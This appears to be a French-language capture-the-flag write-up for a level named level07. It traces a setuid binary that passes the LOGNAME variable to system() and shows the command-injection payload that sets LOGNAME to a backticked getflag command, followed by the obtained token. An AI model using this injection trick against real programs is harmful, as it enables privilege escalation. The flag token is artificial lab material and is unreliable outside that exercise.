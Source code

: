 ls -la
on trouve un ex level07

quand on le lance il renvoit level07

et quand on fait un ltrace ./level07 on a :
__libc_start_main(0x8048514, 1, 0xbffff7e4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                            = 2007
geteuid()                                                            = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                  = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                  = 0
getenv("LOGNAME")                                                    = "level07"
asprintf(0xbffff734, 0x8048688, 0xbfffff46, 0xb7e5ee55, 0xb7fed280)  = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                               = 0
+++ exited (status 0) +++

et la ligne qui nous interesse et
getenv("LOGNAME")                                                    = "level07"
on peut voir qu'il prend le env de LOGNAME donc si on le change par getflag
ca devrait etre bon

go try
export LOGNAME=getflag
./level07
on obtient getflag
il doit y avoir une erreur de syntaxe

j'ai trouver il faut mettre 
export LOGNAME=\`getflag\` pour que tous soit bon

on lance ./level07 
et HOP
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h